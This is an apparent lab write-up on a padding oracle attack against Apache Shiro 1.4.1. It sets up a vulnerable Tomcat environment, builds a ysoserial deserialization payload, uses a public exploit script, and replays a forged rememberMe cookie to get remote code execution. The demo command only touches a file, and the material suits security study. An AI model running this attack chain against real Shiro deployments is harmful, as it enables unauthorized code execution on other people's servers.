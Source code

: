 Once intermediate bytes are found, deciphering the plaintext of the corresponding ciphertext is easy

## Padding Oracle Attack Scenario
Scenario of attack against Apache Shiro

Apache Shiro is a Java Security framework that has functions to perform authentication, authorization, password, and session management.

- older shiro versions suffered from a Padding Oracle Vulnerability, that when chained with a another deserialization-based vulnerability could result in RCE
- Shiro used the AES-128-CBC mode to encrypt cookies enabling Padding Oracle attacks.

Moreover:

- https://www.anquanke.com/post/id/192819

### Creating vulnerable environment
We have set up our own vuln environment using Apache Shiro 1.4.1 + tomcat:8-jre8
```bash
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.4.1
mvn install
cd samples/web
mvn install
```

Copy the samples-web-1.4.1.war package (samples/target) obtained after compilation to the Tomcat webapps directory
```bash
start tomcat
```

### The attack

1 - Grab cookie with BURP

2 - Create a serialized payload with YsoSerial:
```bash
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/Success" > payload.class
```

3 - Download the publicly available exploit:
```bash
https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
# use to captures the 'remember me' cookie as a prefix For the Padding Oracle attack
```

4 - After a couple hours the exploit script provided us with a valid cookie containing our payload. This cookie will be deserialized by the vuln server

5 - Use BURP Repeater to issued a request with out crafted cookie. 


> The Padding Oracle Attacks are Chosen-Ciphertext Attacks (CCA)
